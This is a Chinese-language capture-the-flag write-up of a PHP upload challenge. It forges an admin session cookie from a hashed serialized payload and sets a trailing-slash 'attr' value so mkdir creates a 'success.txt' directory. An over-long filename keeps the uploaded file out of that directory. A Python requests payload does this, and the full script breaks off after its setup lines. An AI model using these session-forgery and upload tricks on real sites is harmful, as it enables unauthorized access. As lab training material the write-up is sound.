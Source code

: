 上传 success.txt 文件看似完全做不到，实际上也完全做不到，不过即使 /var/babyctf/success.txt/ 是一个文件夹，file_exists 也会返回 true。

此时可以将 attr 值设置为 success.txt/ ，当执行 @mkdir($dir_path, 0700, TRUE);  就会创建 /var/babyctf/success.txt/ 文件夹。

如果不上传文件，程序不能正常运行到创建文件夹的地方。

如果上传文件，即使文件名为空，因为有  `$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);` 语句。

就会创建一个 /var/babyctf/success.txt/_{session_id} 的文件。



虽然 safe_delete 函数没有提供源码，但从名称判断 safe_delete 是一个用于安全删除文件（或文件夹）的函数。

这类函数，如果删除的目标是一个文件夹，且文件夹中存在文件，就可以会决绝删除，并且结束程序的运行。（在我修改后的CTF，就是此逻辑）

此时就不会执行 die($flag) 回显 flag 值了。



此时要做到创建 success.txt 文件夹，且不将上传的文件复制到 success.txt 文件夹下。

Linux 对文件的命名是有要求的，例如部分文件系统中，不允许名称长度超过 256 位。

如果超过 256 位，则 move_uploaded_file 不会复制文件，只会出现警告信息。



Python Payload

```python
payload = b'username|s:5:"admin";'
sess_id = hashlib.sha256(payload).hexdigest()
header = f"""
Cookie: PHPSESSID={sess_id}
"""
header = parse_header(header)

data = {
    "direction": "upload",
    "attr": "success.txt"
}

files = {
    "up_file": (
        "aaa" * 300,
        r"bbbbbb"
    )
}

requests.post(url=url,headers=header,files=files,data=data,proxies=proxies)
```



此时再次访问网页就会出现flag。



完整的Python Payload：

```python
import requests
import hashlib
import re
from parse_header import parse_header


proxies = {
    'http': 'http://127.0.0.1:50052',
    'https': 'socks5://127.0.0.1:50052'
}

url = "http://172.16.0.1:6408/index.php"
```